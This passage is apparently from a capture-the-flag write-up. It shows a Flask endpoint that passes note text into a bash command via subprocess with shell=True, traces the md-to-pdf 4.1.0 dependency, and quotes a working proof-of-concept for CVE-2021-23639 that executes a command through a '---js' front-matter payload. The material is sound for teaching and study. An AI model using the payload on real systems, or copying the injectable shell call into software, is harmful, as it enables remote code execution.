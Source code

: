 ```

rand_int = random.randint(1,10000)
command = f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"
subprocess.run(command, shell=True, executable="/bin/bash")

return send_file(attachment_dir + str(rand_int) +'.pdf', as_attachment=True)

```

The author has attempted to make this call in a secure way, using `$'{}'` to make sure whatever is passed in is handled in single quotes and can’t append commands with `;` to get command injection. But there still is an unintended command injection here (I’ll look at it [below](#alternative-command-injection)).

#### CVE-2021-23639

The `package-lock.json` file will give the version of the required JavaScript packages. I’ll extract that from the archive and find it with `grep`:

```

oxdf@hacky$ unzip app_backup_1638395546.zip  misc/package-lock.json
Archive:  app_backup_1638395546.zip
  inflating: misc/package-lock.json  
oxdf@hacky$ grep -A 3 pdf misc/package-lock.json 
    "md-to-pdf": {
      "version": "4.1.0",
      "resolved": "https://registry.npmjs.org/md-to-pdf/-/md-to-pdf-4.1.0.tgz",
      "integrity": "sha512-5CJVxncc51zkNY3vsbW49aUyylqSzUBQkiCsB0+6FlzO/qqR4UHi/e7Mh8RPMzyqiQGDAeK267I3U5HMl0agRw==",
      "requires": {
        "arg": "5.0.0",

```

Googling for this package and exploit returns a page:

![image-20220330152743772](https://0xdfimages.gitlab.io/img/image-20220330152743772.png)

There’s a payload an attacker can put in the passed in markdown that will result in RCE.

The site itself actually displayed a payload that doesn’t quite work, but going into the GitHub repo for the project, there’s an [issue for the bug](https://github.com/simonhaenisch/md-to-pdf/issues/99), with a nice working POC:

```

const { mdToPdf } = require('md-to-pdf');

var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';

(async () => {
	await mdToPdf({ content: payload }, { dest: './output.pdf' });
})();

```
